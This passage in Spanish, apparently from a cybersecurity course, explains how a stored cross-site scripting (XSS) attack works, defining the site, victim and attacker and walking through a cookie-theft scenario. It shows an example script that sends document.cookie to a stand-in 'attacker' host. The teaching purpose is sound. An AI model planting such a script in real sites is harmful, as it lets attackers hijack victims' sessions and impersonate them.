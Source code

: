 Antes de describir en detalle cómo funciona un ataque XSS, debemos definir los actores involucrados en un ataque XSS. En general nvolucra a tres actores: **el sitio web** , **la víctima** y **el atacante** .

- **El sitio web** ofrece páginas HTML a los usuarios que las solicitan. En nuestros ejemplos, está ubicado en [http://website/](http://website/).
- **La base de datos del sitio web** es una base de datos que almacena algunas de las entradas del usuario incluidas en las páginas del sitio web.
- **La víctima** es un usuario normal del sitio web que solicita páginas del mismo a través de su navegador.
- **El atacante** es un usuario malintencionado del sitio web que pretende lanzar un ataque contra la víctima explotando una vulnerabilidad XSS en el sitio web.
- **El servidor del atacante** es un servidor web controlado por el atacante con el único propósito de robar información confidencial de la víctima. En nuestros ejemplos, está ubicado en [http://attacker/](http://attacker/).

**Un ejemplo de escenario de ataque**

En este ejemplo, asumiremos que el objetivo final del atacante es robar las cookies de la víctima explotando una vulnerabilidad XSS en el sitio web. Esto se puede hacer haciendo que el navegador de la víctima analice el siguiente código HTML:

> <script>
> 
> 
> window.location='http://attacker/?cookie='+document.cookie
> 
> </script>

Este script navega por el navegador del usuario a una URL diferente, lo que activa una solicitud HTTP al servidor del atacante. La URL incluye las cookies de la víctima como parámetro de consulta, que el atacante puede extraer de la solicitud cuando llega a su servidor. Una vez que el atacante ha adquirido las cookies, puede utilizarlas para hacerse pasar por la víctima y lanzar más ataques.

De ahora en adelante, el código HTML anterior se denominará **cadena maliciosa** o **script malicioso.** Es importante tener en cuenta que la cadena en sí sólo es maliciosa si finalmente se analiza como HTML en el navegador de la víctima, lo que sólo puede ocurrir como resultado de una vulnerabilidad XSS en el sitio web.

## **Cómo funciona el ataque**

El siguiente diagrama ilustra cómo un atacante puede realizar este ataque de ejemplo:

![XSS2](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/xss2.png?raw=true)

1. El atacante utiliza uno de los formularios del sitio web para insertar una cadena maliciosa en la base de datos del sitio web.
2. La víctima solicita una página del sitio web.
3. El sitio web incluye la cadena maliciosa de la base de datos en la respuesta y la envía a la víctima.
4. El navegador de la víctima ejecuta el script malicioso dentro de la respuesta y envía las cookies de la víctima al servidor del atacante.

## **Tipos de XSS**
